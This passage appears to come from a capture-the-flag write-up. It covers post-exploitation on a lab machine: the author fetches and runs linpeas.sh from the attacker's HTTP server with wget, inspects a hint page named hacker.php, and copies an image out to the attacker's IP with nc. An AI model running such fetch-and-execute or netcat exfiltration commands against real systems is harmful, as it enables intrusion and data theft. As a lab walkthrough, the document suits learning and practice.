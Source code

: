 On my machine:
~~~
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

On the target machine:
~~~
$ wget http://<YOUR IP>/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
~~~

After linpeas was done, something took my attention. In `/var/www/files` there is a file named `hacker.php`. The content was interesting:

hacker.php
~~~html
<html>
<head>
<body>
<style>
body {
  background-image: url('images/002d7e638fb463fb7a266f5ffc7ac47d.gif');
}
h2
{
	color:red;
	font-weight: bold;
}
h1
{
	color: yellow;
	font-weight: bold;
}
</style>
<center>
	<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
</head>
</html>
~~~

"Look in the dark". There is an image included in this page. I moved it to my machine using `nc` to analyze it. The steps are as follows:

On my machine:
~~~
nc -lp 8888 > hacker-with-laptop_23-2147985341.jpg
~~~

On the target machine:
~~~
apaar@ubuntu:/var/www/files/images$ nc -w 3 10.9.2.173 8888 < hacker-with-laptop_23-2147985341.jpg
~~~
